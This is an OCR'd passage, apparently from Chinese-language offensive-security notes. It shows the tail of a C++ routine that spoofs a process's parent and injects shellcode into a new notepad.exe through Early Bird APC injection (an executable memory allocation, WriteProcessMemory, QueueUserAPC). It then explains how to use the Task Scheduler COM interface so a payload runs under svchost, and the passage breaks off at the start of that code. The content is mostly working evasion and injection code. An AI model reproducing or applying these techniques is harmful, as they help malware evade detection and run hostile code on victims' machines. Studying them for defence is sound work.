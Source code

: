 ```c++
                                NULL,
                                NULL);

    info.lpAttributeList = pAttributeList;

    // 创建新的进程，使其具有不同的父进程
    CreateProcessA(NULL,
                    (LPSTR) "notepad.exe",
                    NULL,
                    NULL,
                    FALSE,
                    EXTENDED_STARTUPINFO_PRESENT,
                    NULL,
                    NULL,
                    &info.StartupInfo,
                    &processInfo);

    // Early Bird APC注入
		LPVOID lpBaseAddress = (LPVOID)VirtualAllocEx(processInfo.hProcess, NULL, 0x1000, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
		WriteProcessMemory(processInfo.hProcess, lpBaseAddress, (LPVOID)shellcode, sizeof(shellcode), NULL);
		QueueUserAPC((PAPCFUNC)lpBaseAddress, processInfo.hThread, NULL);
		ResumeThread(processInfo.hThread);
    // 清理资源
    DeleteProcThreadAttributeList(pAttributeList);
    CloseHandle(hParentProcess);

    return 0;
}

```



# Changing Parents Scheduler

利用task scheduler运行程序，使其成为svchost的子进程。

这里需要利用COM接口进行调用。

COM（Component Object Model）接口是一种用于在Windows操作系统中实现组件之间通信的技术。COM接口允许不同的软件组件在不同的进程中进行通信，无论它们是用什么编程语言编写的。COM接口是面向对象的，它将数据和方法封装在一起，并且提供了一种标准的方式来访问这些数据和方法。

COM就是用于完成特定功能的一些DLL，调用COM接口会引入这些DLL。

Task scheduler com object属于mstask.dll

```C++
#include <windows.h>
#include <initguid.h>
#include <ole2.h>
#include <mstask.h>
#include <msterr.h>
#include <objidl.h>
#include <wchar.h>
#include <stdio.h>

#pragma comment (lib, "ole32")

//int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
int main(int argc, char **argv) {
	HRESULT hr = S_OK;
	ITaskScheduler *pITS;

	printf("Let's start a dance!\n"); getchar();
```